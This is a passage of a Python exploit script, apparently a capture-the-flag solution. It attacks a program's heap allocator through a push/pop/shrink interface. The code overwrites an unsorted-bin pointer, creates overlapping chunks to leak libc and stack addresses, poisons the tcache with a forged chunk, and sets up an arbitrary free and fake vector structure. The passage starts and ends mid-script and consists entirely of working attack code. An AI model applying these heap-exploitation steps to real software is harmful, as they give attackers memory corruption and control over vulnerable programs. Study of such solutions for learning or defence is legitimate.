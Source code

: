 ```python
push(convert(0xcafebabe)) # Overwrite unsorted bk

shrink() # Get overlapping chunk (0x70 chunk size)
# libc address will be inserted into the overlapping chunk
# because free() happens after memcpy()

libcleak = eval(pop())
info(f'Libc leak: 0x{libcleak:02x}')

libc.address = libcleak - 0x203b20
info(f'Libc base: 0x{libc.address:02x}')

# ========= Stack Leak ============
# Set size to 0
for i in range(0xb):
    pop()

shrink() # Get 0x20 chunk
shrink() # Switch to the old 0x20 chunk

# Payload for overlapping chunks
payload = [
    0x0, 0x0,
    0x0, 0x71, # --> Our fake_chunk size
    xor(heapleak+0x260), randleak, # --> Poisoned Tcache
    0x0, 0x21,
    heapleak+0x280, 0x611, # --> Arbitrary free, points to fake_chunk_size+0x8 (tcache points to user field)
    libcleak, libcleak
]

for item in payload:
    push(convert(item))
shrink() # Switch 0x70 chunk, poison the 0x70 tcache bin
shrink() # Trigger the malloc & memcpy to get arbitrary free
# Use math to fix the size and gain control
for i in range(0x611-0xc):
    pop()

replace(convert(0x31)) # Replace and fix 0x30 chunk size
replace(convert(-0x290)) # Replace Capacity
pop() # Get size
push(convert(8)) # Edit size to 0x8 (storage pointer position)

target = libc.sym.environ-0x38 #--> Adjusting to account for the size field.
push(convert(target))

pop()
stackleak = eval(pop())
info(f'Stack leak: 0x{stackleak:02x}')

# ========= Returning to heap ============
for i in range(7):
    pop() # Set size to 0, clean storage.

fakestruct = [
    0x0, 0x0,
    0x0, 0x21, # Vector struct chunk size.
    0x0, 0x4, # Arbitrary free to 0, and set size to 0x4
    -1, stackleak, # Set max capacity and Retain Libc's Environ value.
    0x0, 0x0,
    heapleak+0x21000, 0x0 # Retain __curbrk value
]
```